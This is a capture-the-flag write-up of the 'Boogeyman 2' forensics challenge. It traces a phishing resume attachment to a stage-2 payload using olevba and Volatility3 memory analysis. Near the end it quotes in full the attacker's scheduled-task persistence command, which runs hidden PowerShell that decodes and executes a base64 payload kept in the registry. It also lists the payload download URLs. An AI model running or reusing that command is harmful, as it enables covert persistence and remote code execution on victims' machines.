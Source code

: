 Boogeyman 2
--------------

**Start of Investigation**

## Analysis 1

- **Phishing Email Sender**: `[REDACTED]@outlook.com`
- **Victim Email**: `[REDACTED]@onmicrosoft.com`
- **Malicious Attachment**: `Resume_WesleyTaylor.doc`
- **Renamed Locally**: `Malware.doc`
- **Malicious File Hash**: `52c4384a0b9e248b95804352ebec6c5b`

Seems the malware is in separate stages, there is at least a stage 2

used the olevba tool to find more info: ```olevba Malware.doc```

found a URL for the stage 2 payload download:
```https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png``` 

The windows process that executed the stage2 payload was 'wscript.exe'

full path of the stage 2 payload: ```C:\ProgramData\update.js```

Have to dive into forensics now to pull out more information, Volatility3 style

Vol3 Commands:

**Volatility3 usage:**
```vol -f WKSTN-2961.raw <plugin>```

**for plugins**
```
vol -f WKSTN-2961.raw -h

plugins of choice:

windows.pstree.PsTree
windows.psscan.PsScan
windows.pslist.PsList
windows.strings.Strings
```

**Trying first:**

```vol -f WKSTN-2961.raw windows.pstree.PsTree```
```vol -f WKSTN-2961.raw windows.netscan.NetScan```

found the pid of stage 2 being 4260

using pstree i can see the hierarchy of the processes.

the parent process of wscripts.exe is WINWORD.EXE with a PID of 1124

```windows.strings.Strings``` doesn't seem to work here

**Quick Note: I originally answered question 10 by pasting the answer from question 5 and accidentally "autocorrected" .png to .exe. It turned out correct, but I wanted to know how to actually find the answer instead. So I paused and researched, That process is documented below.**



## Research 1

using ```vol -f WKSTN-2961.raw windows.filescan | grep -i update``` to find more information

found update[1].exe

using ```vol -f WKSTN-2961.raw windows.dumpfiles --virtaddr 0xe58f8928f8b0``` to dump the file we need for forensics

checking it's filetype and contents:
```file 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'```

```cat 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'```

nothing useful so far.

more research results more methods

```strings WKSTN-2961.raw | grep boogeymanisback.lol```

found the update.exe's webserver URL: 
```https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe```

using the netscan plugin to find any clues about what process was used to establish C2 connection:

once again, like in Boogeyman 1, the boogeyman really likes port 8080, checking the answer of the PID of the suspected process updater.exe


## Analysis 2

PID: 6216

turns out correct, and updater.exe is the malicious process used

full file path: ```C:\Windows\Tasks\Updater.exe```

C2 IP Address and port: ```[REDACTED]```

full filepath of the malicious .doc file email attachment:

```\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc```

last question might need a bit of research again.. i forget the keywords for finding scheduled processes..


## **Research 2**

okay, after some googling, tried the keyword "schedule" with grep: ``vol -f WKSTN-2961.raw windows.filescan | grep -i "schedule"``

windows uses something called Microsoft Windows Task Scheduler, thats in the path: ``\Windows\System32\winevt\Logs\Microsoft-Windows-TaskScheduler``

maybe this is useful information

after some more research, event log IDs might hold the key, with 106 for task creation and 140 for updates being important perhaps

...maybe not? can't seem to find a plugin for event IDs

with some more research i found from a walkthrough, using ``strings WKSTN-2961.raw | grep schtasks``

found the answer

Full Command:

```schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"';'Schtasks persistence established using listener http stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Updater daily trigger at 09:00.```

```"schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))"``` was the answer.


**Finished CTF**⠀⠀⠀⠀⠀⠀⠀⠀

